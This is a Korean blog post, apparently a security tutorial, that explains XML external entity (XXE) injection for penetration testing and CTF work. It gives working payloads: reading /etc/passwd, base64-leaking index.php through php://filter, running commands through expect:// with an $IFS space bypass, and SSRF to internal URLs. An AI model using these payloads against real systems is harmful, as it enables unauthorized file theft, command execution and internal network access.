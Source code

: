 ```yaml
---

layout: post
title: "XML External Entities(XXE) Injection "
excerpt: "Try to know xxe & use it ~_~"
date: 2020-07-11
categories: [Web]
comments: true 
---
```


이번에는 모의해킹 업무와 ctf에 자주 등장하는데 그간 정리를 안했던 XXE에 대하여 알아보자. 

<h3> 0x0. XML</h3>

XML이란 다른 특수 목적의 마크업 언어를 만드는 용도로 사용된 언어이다. 이를 이용한 XML Entity는 반복적으로 사용되는 문자열이나 특수 문자를 XML문서에서 사용하기 위하여 미리 정의한 것이다. 이는 앰퍼샌드로 시작하고 세미콜론으로 끝난다.

```xml
<simple>&test;</simple>
```

이런 형식의 test가 XML Entity이다.

XML을 내부에 정의한 경우

``` xml
<!ENTITY name "value">
```

이런 방식으로 정의를 하고, 위에서 말한 방식으로 이용한다.

XML을 외부에 정의한 경우

```xml
<!ENTITY name SYSTEM "url or file">
```

이렇게 하며  url or file에 입력한 주소의 내용이 그 Entity의 값으로 이용된다.



<h3>0x1. XXE Injection</h3>

위에서 말한 XML Entity를 이용하여 악의적인 공격을 하는 행위를 XXE Injection이라고 하는데, 공격자가 직접 XML Entity를 외부에  정의하여 이를 악용할 수 있다. XML타입의 데이터를 웹을 통해 전송하는데 서버에서 XML외부 엔티티가 실행이 가능하다면 아래와 같이 시행 가능하다.

```xml
<!DOCTYPE test[
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
```

이런식으로 /etc/passwd를 확인하는 xml을 불러와서 공격할 수 있다. 



<h3> 0x2. Tip</h3>

이번에는 xxe공격을 할 때의 팁이나 다른 정보들을 추가하려고 한다.

우선 처음으로는 그냥 dtd를 통하여 내부 파일을 불러오려고 하면 잘 안되는 경우가 있다. 그런 상황에서는 php에 wrapper클래스를 사용하여 base64등의 형태로 인코딩시켜서 출력을 하면 보통의 경우는 잘 된다.

```xml
<!DOCTYPE test [  
  <!ELEMENT testman ANY >
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
```

이 방법은 xxe를 통한 lfi공격 이외에도 그냥 일반적으로 무언가를 릭해올 때 거의 해당된다.

다음은 xxe를 통하여 RCE를 할 때는 아래와 같이 가능하다. 

```xml
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
```

이렇게 하면 php가  id를 실행하게 된다. 하지만 다양한 명령어를 사용할 때 공백이 필요한데 그런 경우에 공백을 넣으면 에러가 발생한다. 

```xml
<!DOCTYPE test [ 
<!ELEMENT testman ANY >
<!ENTITY xxe SYSTEM "expect://cat$IFS/etc/passwd" >]>
```

 공백에 관한 에러는  $IFS등의 다양한 방법으로 우회를 해주면 된다. 

다음으로는 XXE를 이용한 SSRF이다. 당연히 서버 내부의 권한으로 XML엔티티를 선언하고 실행하는 것이기 때문에 SSRF도 가능하다. 일반적인 사용자의 권한에서는 볼 수 없던 내용도 서버 내부의 권한으로는 가능하다.

```xml
<!DOCTYPE test [ 
<!ELEMENT testman (#ANY)>
<!ENTITY xxe SYSTEM "https://internal_domain/any.php">]>
```

이렇게 해주면 내부 url에 접근이 가능하다. 또한 추가적으로  curl을 이용하여도 접근이 가능하다.

이외에도 추가적으로 DOS공격이나 다른 인코딩을 사용하여 공격하는 방법등이 있는데 나중에 문제를 풀다가 나온다면 

그때 정리해보겠다.
